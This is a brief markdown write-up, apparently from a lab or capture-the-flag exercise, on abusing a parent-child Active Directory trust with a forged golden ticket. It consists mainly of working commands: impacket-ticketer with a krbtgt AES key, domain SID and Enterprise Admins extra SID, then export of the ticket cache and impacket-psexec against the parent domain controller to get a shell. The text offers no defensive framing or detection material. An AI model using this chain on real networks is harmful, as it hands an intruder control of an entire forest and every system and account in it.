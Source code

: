 # Abusing Parent-Child Domain Using Golden Ticket

![image.png](image.png)

https://0xdeaddood.rocks/2023/05/11/forging-tickets-in-2023/

using the krbtgt hash the one with aes256

follow the above link as advised in child and parent domain we have to create a golden ticket and hop to other dc in that same way we do it from linux using impacket-ticker the command are given below 

impacket-ticketer -aesKey b2304e451b53dc5e71c08ddd0fd06a3803d8f14243020fd46c80ad44ec75d2a2 -domain sub.poseidon.yzx -domain-sid S-1-5-21-4168247447-1722543658-2110108262 -extra-sid S-1-5-21-1190331060-1711709193-932631991-519 Administrator -extra-pac

![image.png](image%201.png)

export KRB5CCNAME=Administrator.ccache

![image.png](image%202.png)

impacket-psexec sub.poseidon.yzx/Administrator@dc01.poseidon.yzx -k -no-pass -target-ip 192.168.162.161
